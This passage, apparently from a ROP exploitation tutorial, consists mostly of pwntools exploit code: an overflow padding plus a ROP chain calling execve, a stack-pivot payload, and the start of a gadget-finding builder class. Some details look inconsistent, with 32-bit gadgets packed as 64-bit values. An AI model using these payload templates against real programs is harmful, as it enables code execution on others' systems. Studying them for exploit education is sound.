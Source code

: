 ```python
        pop_rdx,
        0x0,              # RDX = NULL
        
        execve_addr       # Call execve()
    ]
    
    return b'A' * 72 + b''.join(p64(addr) for addr in rop_chain)
```

## Advanced ROP Techniques

### Stack Pivoting

When buffer is too small for full ROP chain:

```python
#!/usr/bin/env python3
from pwn import *

def stack_pivot_rop():
    # Small buffer overflow
    # Use stack pivot to larger controlled area
    
    xchg_eax_esp = 0x400567  # xchg eax, esp; ret
    pop_eax = 0x400123       # pop eax; ret
    
    # Stage 1: Pivot stack to heap/bss
    pivot_addr = 0x601000    # Writable memory area
    
    stage1 = [
        pop_eax,
        pivot_addr,
        xchg_eax_esp  # ESP = pivot_addr
    ]
    
    # Stage 2: Full ROP chain at pivot location
    stage2 = build_full_rop_chain()
    
    # Write stage2 to pivot location first
    write_to_memory(pivot_addr, stage2)
    
    # Trigger overflow with stage1
    payload = b'A' * 32 + b''.join(p64(addr) for addr in stage1)
    
    return payload
```

### ROP Chain Generator

```python
#!/usr/bin/env python3
from pwn import *

class ROPBuilder:
    def __init__(self, binary_path):
        self.elf = ELF(binary_path)
        self.rop = ROP(self.elf)
        self.chain = []
    
    def set_register(self, reg, value):
        """Set register to specific value"""
        if reg == 'rdi':
            gadget = self.rop.find_gadget(['pop rdi', 'ret'])[0]
        elif reg == 'rsi':
```